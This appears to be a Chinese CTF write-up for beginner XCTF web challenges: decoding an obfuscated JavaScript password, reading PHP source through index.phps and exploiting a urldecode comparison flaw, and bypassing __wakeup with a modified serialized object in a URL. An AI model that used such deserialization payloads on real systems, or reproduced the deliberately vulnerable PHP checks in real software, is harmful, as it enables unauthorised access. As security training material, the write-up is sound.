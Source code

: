 ### simple_js

默认弹出窗口，先 f12，查看源代码，发现 js 代码如下

```html
<html>
  <head>
    <title>JS</title>
    <script type="text/javascript">
      function dechiffre(pass_enc) {
        var pass = "70,65,85,88,32,80,65,83,83,87,79,82,68,32,72,65,72,65";
        var tab = pass_enc.split(",");
        var tab2 = pass.split(",");
        var i,
          j,
          k,
          l = 0,
          m,
          n,
          o,
          p = "";
        i = 0;
        j = tab.length;
        k = j + l + (n = 0);
        n = tab2.length;
        for (i = o = 0; i < (k = j = n); i++) {
          o = tab[i - l];
          p += String.fromCharCode((o = tab2[i]));
          if (i == 5) break;
        }
        for (i = o = 0; i < (k = j = n); i++) {
          o = tab[i - l];
          if (i > 5 && i < k - 1) p += String.fromCharCode((o = tab2[i]));
        }
        p += String.fromCharCode(tab2[17]);
        pass = p;
        return pass;
      }
      String["fromCharCode"](
        dechiffre(
          "\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30"
        )
      );

      h = window.prompt("Enter password");
      alert(dechiffre(h));
    </script>
  </head>
</html>
```

分析得出，无论弹出的对话框输入密码正确与否都只会返回同一个字符串；

真正的密码就是这以下代码中的 16 进制加密数据

```js
String["fromCharCode"](
  dechiffre(
    "\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30"
  )
);
```

<br>

同样的，直接在开发者工具的控制台内使用 String 函数对这段编码进行解码

之后编码转换，直接获取 flag

flag 为 `786OsErtk12`

> 注意提交是的格式！！！所以正确答案应该为 cyberspace{786OsErtk12}

![](../imgs/contest/xctf_noob/xn1.png)

<br>

### PHP2

> php 是给开发者看的源代码，phps 是为了直接在网页中查看 php 源码而设计的文件

通过 index.phps 获取网页 php 源代码

```php
<?php
if("admin"===$_GET[id]) {
  echo("<p>not allowed!</p>");
  exit();
}

$_GET[id] = urldecode($_GET[id]);
if($_GET[id] == "admin")
{
  echo "<p>Access granted!</p>";
  echo "<p>Key: xxxxxxx </p>";
}
?>
```

<br>

### unserialize3

目的：通过反序列化绕过魔法函数 wakeup

原理：  
当执行反序列化时会首先运行魔法函数 `__wakeup()`；我们需要绕过该魔法函数才能正确获取 flag  
仅需使序列化成员数大于实际成员数即可！

打开 phpstorm，写入以下代码，获取类 xctf 的序列化内容

```php
<?php
class xctf
{
    public $flag = '111';

    public function __wakeup()
    {
        exit('bad requests');
    }
}

$a=new xctf();
var_dump(serialize($a));
```

<br>

得到的序列化内容：  
`O:4:"xctf":1:{s:4:"flag";s:3:"111";}`

我们增加实际成员数，即把 1 改成 2，此时得到：  
`O:4:"xctf":2:{s:4:"flag";s:3:"111";}`

<br>

将该序列化内容作为负载写入 URL  
`xxx.xxx.xxx.xxx/index.php?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}`

即可绕过 wakeup 获取正确的 flag

<br>

### easyupload
